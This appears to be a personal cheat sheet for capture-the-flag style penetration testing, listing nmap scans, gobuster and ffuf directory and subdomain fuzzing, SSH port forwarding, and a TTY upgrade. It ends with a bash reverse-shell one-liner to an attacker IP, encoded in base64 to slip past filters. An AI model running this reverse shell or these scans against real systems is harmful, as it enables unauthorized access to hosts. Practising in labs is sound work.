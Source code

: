 # prep
## Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

## dirs 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u domain.name

## subdomains:
gobuster vhost -u http://domain.domain \
-w ~/Downloads/subdomains \
--append-domain -t 50
ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

## ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 

